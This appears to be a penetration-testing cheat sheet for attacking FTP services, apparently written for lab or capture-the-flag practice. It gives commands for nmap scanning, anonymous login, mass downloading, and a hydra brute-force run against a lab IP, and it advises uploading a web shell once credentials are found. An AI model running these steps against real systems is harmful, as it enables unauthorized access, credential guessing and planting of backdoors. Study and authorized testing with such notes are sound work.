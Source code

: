 - `Try Anonymous Login` 
- `If valid FTP credentials are found, try uploading a web shell to writable directories`
- `look for downloadable files that can provide initial access`
- `Note: FTP versions above 3.0 are typically not exploitable`

### Scan FTP
```bash
nmap -p 21 --script=ftp-* <ip>
```

### Anonymous Login
```bash
ftp <ip>
# User: anonymous | Pass: anonymous
# If 'ls' fails → type: passive
```

### File Operations
```bash
mget *           # Download all files
get <file>       # Download single file
put <file>       # Upload a file
binary           # Set binary mode (for shells)
```

###  Analyze Downloads
```bash
exiftool -u -a <file>
```

### Download everything recursively
```bash
wget -m --no-passive ftp://anonymous:anonymous@<IP>
```

### Brute Force
```bash
hydra -L users.list -P passwords.list -s 2121 -f -vV 10.129.7.180 ftp
```